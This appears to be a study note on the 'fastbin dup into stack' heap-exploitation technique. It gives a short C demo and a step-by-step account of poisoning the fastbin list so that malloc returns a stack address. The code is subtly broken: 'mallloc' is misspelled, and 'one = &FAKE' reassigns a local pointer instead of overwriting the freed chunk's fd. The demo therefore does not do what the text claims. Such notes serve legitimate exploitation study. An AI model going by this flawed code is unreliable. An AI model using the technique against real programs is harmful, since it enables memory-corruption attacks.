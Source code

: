 # Fastbin duplicate into STACK
> LongChampion, 12/03/2020

> Please read `fastbin_dup.md` to know how to duplicate the fastbin linked list

My code:
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    struct Chunk FAKE;
    void *a = malloc(100);
    void *b = mallloc(100);

    free(a), free(b), free(a);

    void *one = malloc(100);
    void *two = malloc(100);

    one = &FAKE;
    FAKE.size = 112;

    void *three = malloc(100);
    void *STACK = malloc(100);
}
```
The ideal is simple: we use *double free* to duplicate chunk `a`, then call `malloc` to receive it again. When we modify content of `one`, we also modify the content of `three` (although which haven't allocated yet). The stage of fastbin before *hijacking* is:
> HEAD -> a -> TAIL

After *hijacking*:
> HEAD -> a -> FAKE -> XXXX

After allocating `three`:
> HEAD -> FAKE -> XXXX

After allocating `STACK`:
> HEAD -> XXXX

Now `STACK` will point to FAKE.fd (not FAKE) and we can use this pointer to overwrite the stack frame for more hacking.

# IMPORTANT NOTE
- Please remember that the `STACK` pointer will point to `FAKE.fd`, not `FAKE`.
- `one` pointer is set to point to `FAKE` (the begining of `FAKE` chunk), not point to `FAKE.fd`. **The machanism of fd pointer is different in various type of bin**.
    > For example, fd pointer of chunk in `tcache_bin` is point to fd pointer of next chunk instead of chunk's header.
- The `FAKE.size` must be equal to size of `a` (formally, equal to size of any chunk in same fastbin). Read `calc_tcache_idx.md` to know how to calculate this size.
- The `PREV_INUSE` flag of `FAKE.size` (in this situation) is not important, so `FAKE.size` can be set to either 112 or 113.
- The `XXXX` in fastbin after *hijacking* can be control by set `FAKE.fd` to coresponding address. You can make your exploitation better by set `FAKE.fd = c` (`c` is another chunk which same size) and set `c.fd = TAIL`, then the stage of fastbin will be:
    > HEAD -> a -> FAKE -> c -> TAIL (PERFECT !!!)